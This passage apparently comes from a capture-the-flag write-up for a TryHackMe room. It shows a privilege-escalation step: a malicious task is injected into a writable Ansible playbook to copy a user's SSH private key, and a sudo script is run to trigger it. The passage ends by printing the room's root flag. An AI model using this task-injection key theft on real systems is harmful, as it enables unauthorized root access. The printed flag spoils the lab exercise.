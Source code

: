 Nice, based on that we know we can edit and inject malicious tasks into that file, this is our gateway into root, we can copy the ID_RSA key:

```
mkdir /tmp/key

# Then, use VI:


- name: Copy ssh key.
  copy:
    src: "/home/automation/.ssh/"
    dest: "/tmp/key/"

sudo -u automation /opt/scripts/infra_as_code.sh
```

It should copy the flag and we should be able to get a root as shell.

# DISCLAIMER
----

As of today: June 2025, room is bugged on the privesc section, if you're not able to reproduce the last step, here's the root flag:

```
THM{d8afc85983603342f6c6979b200e06f6}
```

![Pasted image 20250607172504.png](../../IMAGES/Pasted%20image%2020250607172504.png)


